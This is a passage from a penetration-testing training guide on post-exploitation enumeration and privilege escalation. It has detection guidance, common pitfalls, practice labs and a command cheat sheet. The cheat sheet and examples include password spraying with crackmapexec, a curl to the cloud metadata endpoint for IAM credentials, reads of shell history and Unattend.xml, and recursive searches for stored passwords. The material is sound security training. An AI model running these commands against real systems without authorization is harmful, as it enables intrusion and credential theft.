crackmapexec smb 172.16.5.0/24 -u users.txt -p 'Autumn2026!' --continue-on-success
```

**Lockout caution:** spraying can lock accounts and cause a denial of service — coordinate with the client, respect lockout thresholds (one attempt per account per policy window), and never spray blindly on a production domain. Credential reuse is quiet and reliable, but careless spraying is one of the fastest ways to cause real harm and blow an engagement. Keep a disciplined list (Part 12.7) of what you've tried where.

---

## Part 13: Detection & Defense Angle

Post-exploitation enumeration is loud if anyone is watching, because it is a burst of reconnaissance commands no normal user runs.

### Host telemetry

| Attacker behaviour | Detection |
|--------------------|-----------|
| Burst of `id`, `sudo -l`, `uname`, `whoami /priv` in seconds | command-line auditing (auditd/Sysmon) — recon command clustering |
| `find / -perm -4000` filesystem sweep | high-volume `stat`/`open` from one process; auditd `path` rules |
| Upload + exec of `linpeas.sh`/`winpeas.exe` | new executable in `/tmp` or `%TEMP%`, AV signature, script-block logging |
| `pspy` watching /proc | unusual sustained `/proc` reads by a non-root user |
| Reading `Unattend.xml`, `.bash_history`, SSH keys | file-access auditing on known credential-bearing paths |
| Internal ping sweep from a foothold | many short-lived ICMP/TCP connections from one host |

### Defensive controls

- **auditd (Linux) / Sysmon + PowerShell script-block logging (Windows)** — capture process creation with full command lines; alert on recon clusters.
- **Least privilege** — no plaintext creds in `.env`/`Unattend.xml`; service accounts in no powerful groups; remove needless SUID and capabilities.
- **File-integrity & access monitoring** on `/etc/crontab`, systemd units, `authorized_keys`, and credential files.
- **EDR behavioural detection** for LinPEAS/WinPEAS patterns and GTFOBins-style abuse (e.g., `find -exec /bin/sh`).
- **Network segmentation** so a dual-homed foothold cannot freely sweep internal subnets.

**Blue team usage:** the same five-question loop is an IR triage script — run it on a suspected-compromised host to understand what the attacker had access to and what they could have taken.

---

## Part 13.5: Living Off the Land vs Uploading Tools

Every enumeration step can be done two ways: with tools already on the box ("living off the land", LOTL) or by uploading your own (LinPEAS, pspy, Seatbelt). The trade-off:

| | Living off the land | Uploaded tooling |
|--|--------------------|------------------|
| Stealth | high — expected binaries | low — new file + AV/EDR trigger |
| Coverage | you must know the commands | comprehensive, automated |
| Speed | slower, manual | seconds |
| Reliability | no dependency issues | may be blocked/flagged |
| When | detection in scope, red team | OSCP/loud tests, time-boxed |

LOTL essentials you should be able to run without uploading anything:

```bash
# Linux LOTL enumeration - all native
id; sudo -l; getcap -r / 2>/dev/null; find / -perm -4000 2>/dev/null
grep -rl password /etc 2>/dev/null; ps auxww; ss -tulpn; cat /etc/crontab
```

```cmd
:: Windows LOTL - native commands + built-in PowerShell
whoami /all & systeminfo & schtasks /query /fo LIST /v
powershell -c "Get-ChildItem -Recurse -Include *.config,*.xml | Select-String password"
```

Uploading a tool is a *decision*, not a default. If you do upload, prefer running from memory (PowerShell `IEX`, in-memory .NET) over dropping a file, and clean up afterward. The habit of asking "can I answer this with what's already here?" is the difference between a red teamer and a script-runner.

---

## Part 13.7: Field Troubleshooting FAQ

| Situation | What it means | Next move |
|-----------|---------------|-----------|
| `sudo -l` asks for a password you don't have | can't check sudo rights | hunt creds; try SUID/caps/cron instead |
| `find` returns nothing for SUID | stripped or you lack read on dirs | re-run after any priv gain; check caps too |
| LinPEAS blocked/killed | AV/EDR or noexec `/tmp` | go manual; run from a writable+exec dir or `/dev/shm` |
| Everything "looks patched" | misconfig is the path, not a CVE | re-check creds, cron, services, groups |
| `getcap` not installed | minimal system | `find / -type f -exec getcap {} \;` alt, or read caps another way |
| No python for pspy alt | can't watch cron easily | poll `ls -la /proc/*/cmdline` in a loop, or `cat /etc/crontab` |
| Can read `/etc/shadow` | direct win | dump + crack offline (hashcat) |

If you remember one reflex: when stuck, **re-read your own notes** — the path is usually a finding you logged and under-rated, not something you haven't found yet.

---

## Part 14: Common Pitfalls

- **Firing exploits before enumerating.** The path is almost always a misconfig you haven't looked for yet. Enumerate first.
- **Stopping at the first finding.** Note it and keep going; you want the full picture and a *ranked* plan, not the first thing that might work.
- **Running from a dumb shell.** Stabilise first or half your commands (`sudo`, `su`) fail.
- **Ignoring your own groups.** `docker`, `lxd`, `disk`, `adm`, `sudo` are all leads; read `id` carefully.
- **Missing the second NIC.** A dual-homed box is a pivot; `ip a`/`ipconfig` first.
- **Overlooking credentials.** History, `.env`, `Unattend.xml`, and process command lines beat every exploit for speed and stealth.
- **Blindly trusting scanners.** Verify LinPEAS/WinPEAS findings by hand; they false-positive and miss things.
- **Being needlessly loud.** On a detection-in-scope test, a filesystem-wide `find` and a LinPEAS run will get you caught; go targeted.
- **Not taking notes.** Record every finding with its evidence; escalation plans and reports depend on it.
- **Forgetting the cloud metadata endpoint.** On a cloud VM, `169.254.169.254` may hand out IAM creds — a huge miss if you skip it.
- **Spraying without lockout awareness.** Credential reuse is great; blind spraying locks accounts and causes real damage. Throttle and coordinate.
- **Treating containers like hosts.** In a container, the goal may be *escape*, not host privesc — check `/.dockerenv` and `/proc/1/cgroup` early.

---

## Part 15: Final Revision / Summary

- Privilege escalation is an **enumeration problem**. Look thoroughly; the path becomes obvious.
- Run the **OODA loop**: observe (enumerate) → orient (interpret in context) → decide (rank) → act (one change) → repeat.
- Answer five questions: **who am I, what can I do, where am I, what's around me, what secrets are here.**
- First commands: Linux `id / sudo -l / uname -a / getcap / find -perm -4000`; Windows `whoami /priv / systeminfo / whoami /groups`.
- Read `id` groups and `whoami /priv` carefully — `docker`/`sudo`/`SeImpersonate` are often instant wins.
- Hunt secrets everywhere: history, config, `.env`, `Unattend.xml`, SSH/AWS keys, process command lines, env vars.
- Map network position — a dual-homed box is a pivot; internal-only listeners are new attack surface.
- Convert findings to a plan with **GTFOBins** (Linux) and **LOLBAS** (Windows); rank by reliability and noise, prefer creds > misconfig > SUID/caps > cron > kernel.
- Automated tools (LinPEAS/WinPEAS/pspy) accelerate but never replace understanding; run manual orientation first and verify everything.
- Defenders catch all of this via command-line auditing, file-access monitoring, least privilege, and segmentation.
- On cloud VMs, always check the **instance metadata endpoint**; in containers, check whether the goal is escape rather than host privesc.
- **Notes are part of the method** — one file per host, evidence for every finding, one central credential list — because escalation, lateral movement, and the final report all draw from them.

---

## Part 16: Cheat Sheet / Quick Reference

```text
# LINUX ORIENTATION
id; whoami; hostname; uname -a; cat /etc/os-release; ip a; pwd
sudo -l
find / -perm -4000 -type f 2>/dev/null          # SUID
find / -perm -2000 -type f 2>/dev/null          # SGID
getcap -r / 2>/dev/null                          # capabilities
find / -writable -type f 2>/dev/null | grep -E 'cron|\.service|\.sh$'

# LINUX AROUND / SECRETS / NET
ps auxww; cat /etc/crontab; ls -la /etc/cron.*
cat ~/.bash_history /home/*/.bash_history 2>/dev/null
grep -riE 'password|secret|api_key' /etc /var/www /opt 2>/dev/null
ip a; ip route; ss -tulpn; arp -a; cat /etc/hosts
./pspy64 -pf -i 1000

# WINDOWS ORIENTATION
whoami /priv & whoami /groups & hostname & systeminfo
net user %USERNAME% & net localgroup administrators
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# WINDOWS AROUND / SECRETS / NET
tasklist /v & schtasks /query /fo LIST /v
cmdkey /list & findstr /si password *.txt *.ini *.config *.xml
type C:\Windows\Panther\Unattend.xml
ipconfig /all & route print & netstat -ano & arp -a

# CLOUD / CONTAINER CHECKS
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
cat /.dockerenv 2>/dev/null; cat /proc/1/cgroup | grep -E 'docker|lxc|kube'

# CREDENTIAL REUSE (throttle, watch lockouts!)
su - user           # linux
crackmapexec smb SUBNET -u users.txt -p 'Pass!' --continue-on-success

# TURN FINDINGS INTO PLAN
# Linux binary from sudo -l / SUID  -> GTFOBins
# Windows signed binary             -> LOLBAS
# Rank: creds > sudo/GTFOBins > SUID/caps > writable cron/service > kernel
```

---

## Part 17: Practice Labs & Resources

- **TryHackMe — "Linux PrivEsc" and "Windows PrivEsc"** — structured coverage of every enumeration finding this chapter introduces, with targets to exploit.
- **TryHackMe — "Enumeration" / "Common Linux Privesc"** — drills the manual-enumeration loop specifically.
- **HackTheBox Academy — "Linux Privilege Escalation" and "Windows Privilege Escalation"** modules — the definitive graded coverage.
- **GTFOBins** and **LOLBAS** — bookmark both; they are the lookup tables that turn enumeration into escalation.
- **HackTricks (Linux/Windows local privilege escalation pages)** — the exhaustive checklist reference; use it to sanity-check your manual pass against everything a scanner would test.
- **Sushant747 / g0tmi1k "Basic Linux Privilege Escalation" guides** — the classic enumeration checklists that predate the automated scanners; read them once to understand *why* each check exists.
- **pspy, LinPEAS, WinPEAS, Seatbelt** — install and run each in a lab so you know their output before you need it.
- **TryHackMe — "Post-Exploitation Basics"** — practises situational awareness, credential looting, and pivoting from a foothold specifically.
- **CyberDefenders / Blue Team Labs** — work the *defensive* side: detect the enumeration bursts you now know how to generate.
- **Proving Grounds (Offensive Security)** — practice machines that reward methodical enumeration over exploit-spraying, close to real engagement conditions.
- **HackTheBox — easy Linux/Windows boxes** — practise the full loop on every box: never fire an exploit before you've answered all five questions.
- **PEN-200 / OSCP lab machines** — the exam rewards exactly this methodology under time pressure; drill until the five-question pass is automatic.
- **pwnkit / GTFOBins demo VMs and VulnHub "Basic Pentesting"** — safe offline targets to practise turning enumeration into a ranked plan.

### Memory hooks

- **"Enumerate, don't guess."** The path is a fact you haven't found yet, not an exploit you haven't tried.
- **"Read `id`, read `whoami /priv`."** The first line often *is* the answer (docker, sudo, SeImpersonate).
- **"Five questions."** Me, host, around, network, secrets — in that order.
- **"Creds beat CVEs."** A found password is faster, quieter, and more reliable than any exploit.
- **"GTFOBins for the binary, LOLBAS for the EXE."** Turn a finding into a technique.
- **"Notes or it didn't happen."** The finding you didn't record is the one you'll miss.

### Self-check before moving on

Land a fresh shell in any lab and, without a scanner, answer all five questions and produce a ranked plan in under ten minutes. Then run LinPEAS/WinPEAS and confirm it surfaced nothing you missed. When your manual pass consistently matches or beats the scanner, you own this chapter — and every escalation chapter that follows becomes "map the finding to the technique."

A final framing to carry into every chapter that follows: escalation is rarely a single genius move. It is a chain of small, boring, correct observations — a group membership, a writable file, a password in a config — assembled by a disciplined loop into an obvious conclusion. The operators who consistently reach root and Domain Admin are not the ones who know the most exploits; they are the ones who enumerate the most thoroughly and read the output most carefully. Everything else in this notebook is technique; this chapter is the habit that decides whether the technique ever gets used.

The next chapter goes deep on the first half of the escalation itself: **Linux privilege escalation enumeration**, teaching LinPEAS from scratch alongside the manual techniques that find what it misses.
